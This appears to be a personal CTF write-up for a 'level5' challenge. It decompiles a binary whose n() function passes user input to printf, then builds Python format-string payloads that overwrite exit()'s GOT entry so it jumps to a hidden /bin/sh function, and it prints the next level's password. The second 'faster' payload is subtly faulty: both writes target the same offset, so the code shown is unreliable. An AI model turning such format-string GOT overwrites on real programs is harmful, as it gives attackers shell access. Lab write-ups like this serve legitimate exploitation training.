 get the binary on host
* scp -P 4242 level5@192.168.56.107:./level5 ./binary/level5

decompile using ghidras
```c
/*08048504*/void main(void)
			{
				n();
				return;
			}

/*080484c2*/void n(void)
			{
				undefined local_20c [520];
			
				fgets(local_20c,512,stdin);
				printf(local_20c);
/*080484f8*/		
				exit(1);
			}

/*080484a4*/void o(void)
			{
				system("/bin/sh");
				exit(1);
			}

```
`https://axcheron.github.io/exploit-101-format-strings/` <= learn to do a GOT Overwrite

We need addr of `o()`, `exit()`, `the offset of the string` 
* o addr ====> 0x0804 84a4
* exit addr => 0x08 04 98 38
* By trying we get an off set of 4

str => `addr exit`\
`python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5` << this is valid but let try a faster way cause waiting 134 513 824 space to print is long

We can split the addr of 0 in 2 and but it in 2 time :\
`python -c "print '\x38\x98\x04\x08' + '%2048x%4\$hn' + '%31904x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5`
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```